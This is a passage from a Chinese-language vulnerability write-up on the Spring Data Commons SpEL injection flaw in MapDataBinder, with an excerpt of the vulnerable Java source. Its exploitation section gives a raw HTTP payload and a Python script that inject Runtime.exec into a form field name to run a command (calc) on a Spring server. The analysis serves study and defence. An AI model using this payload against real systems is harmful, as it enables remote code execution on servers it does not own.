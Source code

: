 * ## 漏洞的利用
  根据上述判定出来的漏洞点，我们可以构造如下攻击代码

  1.构建一个Http的Post请求
  2.利用form表单提交的方式来提交我们的key value
  3.在key的名称中包含此次攻击代码
  4.提交的key为上文的 getName() 方法的 name
  5.在name后面补上一段Spel支持的代码片段,key将变成如 name[T(java.lang.Runtime).getRuntime().exec("calc")]

  最终playload如下

  ```text
  POST /test HTTP/1.1
  Host: 127.0.0.1:8080
  Content-Type: application/x-www-form-urlencoded
  Cache-Control: no-cache

  name%5BT(java.lang.Runtime).getRuntime().exec(%22calc%22)%5D=v

  ```

  用python写的简单脚本如下

  ```python
  import http.client, urllib.parse

  command = "calc.exe"
  key = 'name[T(java.lang.Runtime).getRuntime().exec("%s")]' % command
  params = urllib.parse.urlencode({key: 'v'})
  headers = {"Content-type": "application/x-www-form-urlencoded"}
  conn = http.client.HTTPConnection(host="localhost",port=8080)
  conn.request("POST", "/test", params, headers)
  conn.close()

  ```

  总而言之当满足漏洞条件时，只需要发送一个特定的key就可以了

* ## Spring-data-commons漏洞被执行的流程

  本次漏洞的成因，主要在于Spring在自动解析用户的参数的时候采用了 SpelExpressionParser 来解析propertyName

  MapDataBinder.java 169行

  ```java
    Expression expression = PARSER.parseExpression(propertyName);

    PropertyPath leafProperty = getPropertyPath(propertyName).getLeafProperty();
    TypeInformation<?> owningType = leafProperty.getOwningType();
    TypeInformation<?> propertyType = owningType.getProperty(leafProperty.getSegment());

    propertyType = propertyName.endsWith("]") ? propertyType.getActualType() : propertyType;

    if (conversionRequired(value, propertyType.getType())) {

      PropertyDescriptor descriptor = BeanUtils
          .getPropertyDescriptor(owningType.getType(), leafProperty.getSegment());
      MethodParameter methodParameter = new MethodParameter(descriptor.getReadMethod(), -1);
      TypeDescriptor typeDescriptor = TypeDescriptor.nested(methodParameter, 0);

      value = conversionService.convert(value, TypeDescriptor.forObject(value), typeDescriptor);
    }

    expression.setValue(context, value);
  ```
